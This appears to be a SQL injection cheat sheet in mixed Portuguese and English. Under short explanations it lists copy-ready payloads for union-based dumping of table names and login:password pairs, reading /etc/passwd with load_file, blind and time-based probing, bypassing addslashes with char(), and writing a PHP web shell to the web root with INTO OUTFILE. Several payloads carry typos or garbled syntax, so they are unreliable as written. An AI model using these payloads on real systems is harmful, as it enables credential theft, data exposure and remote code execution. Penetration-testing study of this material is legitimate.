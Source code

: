 # SQL Injection
Injeção de SQL é uma vulnerabilidade de segurança comum em aplicações web que interagem com bancos de dados. Nesse tipo de ataque, um invasor insere intencionalmente instruções SQL maliciosas nos campos de entrada ou parâmetros de URL de um formulário web, explorando falhas na validação ou sanitização de dados. Quando essas instruções são executadas pelo banco de dados, elas podem permitir que o invasor manipule o comportamento do sistema, como acessar, modificar ou excluir dados, ou até mesmo obter controle total sobre o servidor

## Information Schema
Através do Information Schema é possível obter a tabela com usuários e senhas do sistema e obter as informações nela contidas

Exemplo: ' union select 1,2, group_concat(table_name),4,5 from information_schema.tables where table_schema = "string" %23

Exemplo: ' union select 1,2,concat(login,':',senha),4,5 from table %23

## Error Based
Error Based, como o nome indica, baseia-se no erro que retorna ao tentar realizar uma consulta no banco de dados em algum campo. Com ele, você pode injetar código SQL para descobrir informações sobre a tabela e o banco de dados

Exemplo: ' union select 1,2,3... %23

Exemplo: ' order by 1 or 2 or 3...'

Exemplo: union select 1, column_name, load_file(”/etc/passwd”), 4, 5 from information_schema.columns where table_schema=”database” and table_name=”users” %23

## Blind
When there are no indications if there is a SQL Injection, some tests can be used to verify the AND and OR logic of the program.

Example: ' or 1=1 union select 1,2#

### Blind Post
To discover confidential information from the server through logic, it is possible to use the ascii function to find out the name of the database in which the application is located, so it is very common to use Burp Suite in Repeater mode to make requests.

Example: ' or length(database()) = 7 #

Example: ' or ascii(substring(database(),1,1)) = ascii number for letter # 

Example: ' or database() = char(115,116,114,105,110,103) # 

Example: ' or ascii(substring(select loing from column name limit 0,1),1,1)) = ascii number for letter #

## Time Based
Time Based uses the sleep() function to check if there is a SQL Injection vulnerability by observing if the page takes a long time to respond after sending a sleep() in a request to the database. If possible, you can use if to scan information about the database, tables, and other information as in other vulnerabilities

Example: ' or sleep(5)#

Example: ' or if (length(database()) = 5, sleep(5), 0)#

Example: ' or if (database() = char(char(115,116,114,105,110,103)), sleep(5), 0)#

Example: ' or if (ascii(substring(database(), 1, 1)) = 100, sleep(5), 0)#

## SQLi to RCE
Com a injeção de comando SQL, você pode gravar dados no servidor com o comando INTO OUTFILE e o caminho do diretório que deseja salvar

Exemplo: ‘ union all select 1,2,3,4, “string” INTO OUTFILE “/var/www/html/website/file.txt” %23

Exemplo: ‘ union all select 1,2,3,4, “`<?php system($_GET[’parameter’]); ?>” INTO OUTFILE “/var/www/html/website/banners/file.php” %23

## Bypass addslashes
In some cases, because of the way it was programmed to be queried in the database, some backslashes will be added to the query, making it impossible to make queries with single quotes, generating an error. However, one of the ways to circumvent this mechanism is to pass string values in decimals separated by commas with the char() function.

Example: echo -n “string” | od -An -tdC

Example:-1 union select 1,table_name,3,4,5 from information_schema.tables where table_schema=char(115,116,114,105,110,103)

Site: [https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html)
